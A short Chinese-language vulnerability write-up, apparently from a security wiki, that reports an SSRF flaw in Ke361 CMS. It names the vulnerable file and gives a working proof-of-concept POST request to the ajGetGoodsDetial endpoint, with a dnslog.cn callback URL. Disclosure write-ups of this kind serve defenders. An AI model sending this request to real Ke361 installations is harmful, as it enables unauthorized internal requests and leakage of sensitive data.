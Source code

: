 # Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](../../../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35.png)

存在漏洞的文件为 **Application/Home/Controller/GoodsController.class.php**

![img](../../../.vuepress/public/img/1634173817836-6c70b428-ad33-4f61-9c5f-94728c906ff2.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```php
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![img](../../../.vuepress/public/img/1634173848355-4f9cb3d2-7e5e-4b6d-8ca7-c7fbacb844e8.png)

![img](../../../.vuepress/public/img/1634173865625-05a6c6ce-d427-498e-80c0-ef8b6ec232a3.png)